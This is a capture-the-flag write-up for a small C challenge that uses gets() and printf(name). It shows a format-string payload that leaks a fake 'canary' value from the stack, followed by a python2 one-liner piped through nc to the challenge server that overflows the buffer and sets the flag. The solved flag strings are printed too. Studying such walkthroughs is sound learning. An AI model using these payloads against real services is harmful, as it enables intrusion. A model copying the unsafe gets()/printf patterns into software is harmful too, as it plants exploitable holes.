 # Overview
First, we look at the code:  
```
#include <stdio.h>

int main(int argc, char const *argv[])
{
    long flag = 0;
    long a = SOME_INTEGER_CONSTANT;
    char pass[32] = "abcd";
    char name[32] = {0};

    printf("Enter your name - MAX length 32\n");
    gets(name);
    printf(name);

    printf("Enter your password - MAX length 32\n");
    gets(pass);

    if (a != SOME_INTEGER_CONSTANT) {
        printf("Are you trying to cause problems here? calling the police, you better run.\nMY canary can still breathe!\n");
    } else if (flag) {
        printf("biuCTF{7h15_i5_f4|<e_f149}\n");
    } else {
        printf("Wrong password...\n");
    }
}
```
We can easily see that our goal is to exploit a simple buffer overflow to change the value of *flag* to not be 0.  
But we cannot just exploit a buffer overflow here, because we have a **stack canary** here, which is a common technique to prevent buffer overflows. It is actually a special value which is saved on the top of the buffer, and later is checked to see if it has changed because of a buffer overflow. We can see that the canary isn't random or something, but it is a constant value. So if we know the value of the canary, we can simply overflow the buffer and put the original stack canary in its place, so the program will not know that there was a buffer overflow. But how can we know the value of the stack canary?  

# Format string vulnerability
The **printf** function always gets a format strin gin the first parameter, which is a string which contains format parameters (or not), which are of the form %<format_type>. The printf function treats for every format parameter as a real parameter and prints it. So, if we give printf a format string in its first parameter (for example, ```%x``` many times), the printf will think that it has real arguments to print, so it will print the values of the registers and the stack (depending on the architecture, but in any case values from the stack will finally be printed, because the number of the regusters is final), which are considered to be the arguments.

# The exploit
Now, we can actually exploit a format string to leak the value of the stack canary. At the time of the call to printf, the stack looks like that:  
|  value |   size   |
|--------|----------|
|  flag  | 8 bytes  |
|  a     | 8 bytes  |
|  pass  | 32 bytes |
|  name  | 32 bytes |  

So we can make name to be something like ```%x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x```, and it will leak us the next values:  
```309176b1 0 fdde1980 5a862410 0 5a862558 f0b5ff 25207825 20782520 78252078 25207825 20782520 78252078 0 0 32```  
actually, the values ```25207825 20782520 78252078 25207825 20782520 78252078``` are the hexadecimal encoding of the string we have just entered, which has also overriden part of pass, and we know that the stack canary should sit just after that. We can see that the last printed value is 0x32, and it makes sense that it will be the value of the stack canary, because it sits just in a perfect place for that, so we will try to treat it is the stack canary and see what we got. That value sits in offset 32 from the place where pass sits in the stack, so we will add a 32 byte padding and then add the value 0x32, which we consider for know to be the stack canary, and then just add 4 bytes to override the value of flag, so we will get into the second if to print the flag.  
So after we leaked the value of the stack canary, the final exploit is:  
```python2 -c 'import struct; print ""; print "A"*32 + struct.pack("Q", 0x32) + "A"*4' | nc challenges.ctf.cs.biu.ac.il 3004```  
And finally got the flag:  
```Enter your name - MAX length 32
Hi, !
Enter your password - MAX length 32
biuCTF{b0f_w1th_c4N4Ry?!}```

